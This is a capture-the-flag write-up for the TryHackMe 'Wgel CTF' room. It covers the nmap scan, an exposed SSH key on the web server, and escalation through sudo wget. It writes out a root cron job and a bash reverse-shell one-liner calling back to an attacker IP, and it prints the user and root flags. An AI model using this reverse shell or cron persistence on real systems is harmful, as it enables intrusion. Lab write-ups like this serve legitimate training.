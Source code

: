 # Tryhackme.com Room : Wgel ctf
`https://tryhackme.com/room/wgelctf`


# Instance
```
export IP=10.10.186.69
```

# Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:46:B5:34:95:EF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Web server
Comments in html
```
<!-- Jessie don't forget to udate the webiste -->
```

Potential user `jessie`

Website at `/sitemap`

Template by `Colorlib` (wordpress)


We finally find ssh key in `/sitemap/.ssh/id_rsa`

The user flag is in `/home/jessie/Documents/user_flag.txt`
```
057c67131c3d5e42dd5cd3075b198ff6
```

We can run `wget` with sudo.

From there, we can go multiple ways, one of the simplest thing to do is create a cron job that open a reverse shell.

We create this cron job definition :
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * *   root    /home/jessie/pwn.sh
```

And the `pwn.sh` script :
```
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.143.183/8888 0>&1
```

We then get a root shell and get the flag :

Root flag
```
b1b968b37519ad1daa6408188649263d
```